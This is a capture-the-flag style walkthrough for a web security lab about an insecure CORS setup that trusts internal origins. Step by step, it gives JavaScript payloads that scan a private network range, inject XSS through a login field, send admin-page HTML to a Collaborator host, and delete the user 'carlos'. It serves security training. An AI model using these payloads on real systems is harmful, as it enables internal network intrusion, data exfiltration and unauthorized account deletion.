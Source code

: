 
----

#### Lab description


This website has an insecure CORS configuration in that it trusts all internal network origins.
This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (`192.168.0.0/24`, port `8080`) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user `carlos`.

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


#### Lab solution


1. Copy the code bellow and replace the placeholder `$collaboratorPayload` with your collaborator payload
```javascript

`<script> var q = [], collaboratorURL = 'http://$collaboratorPayload'; for(i=1;i<=255;i++) { q.push(function(url) { return function(wait) { fetchUrl(url, wait); } }('http://192.168.0.'+i+':8080')); } for(i=1;i<=20;i++){ if(q.length)q.shift()(i*100); } function fetchUrl(url, wait) { var controller = new AbortController(), signal = controller.signal; fetch(url, {signal}).then(r => r.text().then(text => { location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now(); })) .catch(e => { if(q.length) { q.shift()(wait); } }); setTimeout(x => { controller.abort(); if(q.length) { q.shift()(wait); } }, wait); } </script>`


```
2. Get the IP and Port from collaborator DNS interaction
![[Pasted image 20230724221034.png]]
3. And replace the script from step to the following

```javascript
`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url, collaboratorURL){ fetch(url).then(r => r.text().then(text => { xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>'); })) } fetchUrl("http://$ip", "http://$collaboratorPayload"); </script>`

```

4. If `foundXSS=1` is found you got it

![[Pasted image 20230724221136.png]]

5. Copy the iP address and Port from step again, and now remove the last script, and paste the following, to get the SRC of the admin page

```
`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url, collaboratorURL){ fetch(url).then(r=>r.text().then(text=> { xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">'); } )) } fetchUrl("http://$ip", "http://$collaboratorPayload"); </script>`

```

![[Pasted image 20230724221907.png]]

![[Pasted image 20230724221924.png]]

6. Look at the code got from step 5, and delete the user `carlos` with the following script, paste this following script at the exploit server:


```javascript

`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url){ fetch(url).then(r=>r.text().then(text=> { xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">'); } )) } fetchUrl("http://$ip"); </script>`

```


![[Pasted image 20230724221834.png]]